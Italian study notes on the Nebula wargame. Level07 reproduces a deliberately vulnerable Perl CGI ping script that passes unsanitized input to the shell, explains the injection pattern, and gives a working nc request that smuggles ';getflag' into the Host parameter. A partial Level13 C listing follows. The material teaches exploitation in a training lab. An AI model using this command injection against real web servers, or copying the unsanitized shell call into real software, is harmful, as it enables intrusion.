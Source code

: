 ## Nebula - Level07
- Controlliamo il codice sorgente sul sito

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```
- "$host = $_[0]; "  --> questa riga andiamo ad inserire il parametro presente in una query string all'interno della variabile host (dovrebbe essere un ip)
- Successivamente stampo una pagina html che contiene il risultato del comando "**ping**"
 - Attenzione al **foreach** (stampo tutte le righe)

 > **Considerazione**: non c'è nessuna sanitizzazione dell'input, quindi è immediato come sia applicabile il nostro pattern malevolo INPUT = input legit + separatore + input malevolo + chiusura

- L'applicazione è uno script CGI perl, dobbiamo interagire con un web server la cui configurazione si trova nel file thttpd.conf
	- da questo file scopriamo la porta su cui è in ascolto il web server
-  echo -ne "GET /index.cgi?Host=8.8.8.8%3Bgetflag\n\r\n\r" | nc localhost 7007
## Nebula - Level13

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
```